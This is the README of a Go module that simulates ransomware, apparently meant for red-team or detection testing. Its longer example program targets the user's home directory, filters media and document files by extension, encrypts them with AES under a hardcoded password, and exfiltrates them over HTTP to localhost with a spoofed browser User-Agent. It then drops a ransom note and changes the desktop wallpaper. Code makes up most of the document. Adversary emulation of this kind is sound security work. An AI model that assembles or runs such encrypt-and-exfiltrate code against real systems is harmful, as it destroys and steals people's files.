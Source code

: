 # Ransimware

[![Yum](https://img.shields.io/badge/-Buy%20me%20a%20cookie-blue?labelColor=grey&logo=cookiecutter&style=for-the-badge)](https://www.buymeacoffee.com/mjwhitta)

[![Go Report Card](https://goreportcard.com/badge/github.com/mjwhitta/ransimware?style=for-the-badge)](https://goreportcard.com/report/github.com/mjwhitta/ransimware)
![License](https://img.shields.io/github/license/mjwhitta/ransimware?style=for-the-badge)

## What is this?

This Go module allows you to simulate ransomware.

## How to install

Open a terminal and run the following:

```
$ go get --ldflags "-s -w" --trimpath -u \
    github.com/mjwhitta/ransimware
```

## Usage

Minimal example:

```
package main

import (
    "os"
    "path/filepath"

    rw "github.com/mjwhitta/ransimware"
)

func main() {
    var e error
    var home string
    var sim *rw.Simulator

    // Try to get home directory
    if home, e = os.UserHomeDir(); e != nil {
        panic(e)
    }

    // Create simulator with 32 worker threads
    sim = rw.New(32)

    // Since no encrypt function is defined, the default behavior is
    // to do nothing

    // Since no exfil function is defined, the default behavior is to
    // do nothing

    // Since no notify function is defined, the default behavior is to
    // do nothing

    // Target the user's Desktop directory
    if e = sim.Target(filepath.Join(home, "Desktop")); e != nil {
        panic(e)
    }

    // Run the simulator
    if e = sim.Run(); e != nil {
        panic(e)
    }
}
```

More complex example:

```
package main

import (
    "os"
    "path/filepath"
    "strings"

    rw "github.com/mjwhitta/ransimware"
)

func main() {
    var e error
    var home string
    var sim *rw.Simulator

    // Try to get home directory
    if home, e = os.UserHomeDir(); e != nil {
        panic(e)
    }

    // Create simulator with 32 worker threads
    sim = rw.New(32)

    // Include interesting extensions
    sim.Include(`\.(avi|mkv|mov|mp[34]|mpeg4?|ogg|wav)$`) // vids
    sim.Include(`\.(bmp|gif|ico|jpe?g|png|tiff)$`)        // imgs
    sim.Include(`\.(docx|pptx|txt|xlsx|zip)$`)            // docs
    sim.Include(`\.(bat|ps1|xml)$`)                       // misc

    // Ignore directories
    sim.Exclude(`All\sUsers|AppData.Local|cache2.entries|Games`)
    sim.Exclude(
        `Local\sSettings|Low.Content\.IE5|Program(Data|\sFiles)`,
    )
    sim.Exclude(`Tor\sBrowser|User\sData.Default.Cache|Windows`)

    // Ignore AnyConnect cache/config
    sim.Exclude(`\.cisco|Cisco`)

    // Ignore extensions
    sim.Exclude(`\.(bin|dll|exe|in[fi]|lnk|ransimware|sys)$`)

    // Set encryption method to AES using provided helper function
    sim.Encrypt = rw.AESEncrypt("password")

    // Set exfil method to be HTTP using provided helper function
    sim.Exfil, e = rw.HTTPExfil(
        "http://localhost:8080",
        map[string]string{
            "User-Agent": strings.Join(
                []string{
                    "Mozilla/5.0 (Windows NT 10.0; Win64; x64)",
                    "AppleWebKit/537.36 (KHTML, like Gecko)",
                    "Chrome/84.0.4147.105 Safari/537.36",
                },
                " ",
            ),
        },
    )
    if e != nil {
        panic(e)
    }

    // Notify user by changing wallpaper and leaving a ransom note,
    // using the provided helper functions
    sim.Notify = func() error {
        rw.RansomNote(
            filepath.Join(home, "Desktop", "ransomnote.txt"),
            []string{"This is a ransomware simulation."},
        )()

        rw.WallpaperNotify(
            filepath.Join(home, "Desktop", "ransom.png"),
            rw.DefaultPNG,
            rw.DesktopStretch,
            false,
        )()

        return nil
    }

    // Target the user's home directory
    if e = sim.Target(home); e != nil {
        panic(e)
    }

    // Run the simulator
    if e = sim.Run(); e != nil {
        panic(e)
    }
}
```

## Links

- [Source](https://github.com/mjwhitta/ransimware)

## TODO

- Provide more helper functions
    - FTP exfil
